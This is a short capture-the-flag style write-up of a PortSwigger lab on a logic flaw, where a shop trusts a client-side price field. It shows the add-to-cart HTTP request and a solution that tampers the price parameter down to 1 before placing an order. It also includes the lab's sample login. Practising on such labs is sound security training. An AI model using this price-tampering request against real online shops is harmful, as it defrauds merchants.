 # [Lab: Excessive trust in client-side controls](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls)

## Lab

This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

add to cart request:

```http
POST /cart HTTP/1.1
Cookie: session=wienersession

productId=1&redir=PRODUCT&quantity=1&price=133700
```

## Solutions

change the `price` in request:

```http
POST /cart HTTP/1.1
Cookie: session=wienersession

productId=1&redir=PRODUCT&quantity=1&price=1
```

place order => solved
